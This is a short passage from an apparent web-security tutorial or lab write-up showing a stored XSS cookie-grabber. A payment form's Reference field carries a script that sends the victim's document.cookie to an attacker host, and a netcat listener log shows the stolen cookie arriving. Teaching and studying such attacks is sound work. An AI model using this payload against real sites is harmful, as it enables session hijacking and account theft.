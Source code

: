 #### 1.5. Cookie grabber example (persistent XSS)

Attacker posts a payload that gets stored in a database server-side:
```
POST /Payments/New HTTP/1.1
Host: 192.168.22.100
[FORMATTING CUT]

RecipientAccountSortCode=239068&Amount=100&&Reference=<script>window.location="http://192.168.22.10?cookie="%2bdocument.cookie</script>&csrf-token=&SubmitType=submit
```

Once the user visits the injected page (contains stored XSS) the JS payload is triggered and the attacker receives the cookie of the currently authenticated user:
```
# nc -nlvp 80
listening on [any] 80 ...
connect to [192.168.22.10] from (UNKNOWN) [192.168.22.100] 33510
GET /?cookie=xss-flag=acfa7b74bd33fa585dbbc848d49ad23ea049 HTTP/1.1
Host: 192.168.22.10
[FORMATTING CUT]
```
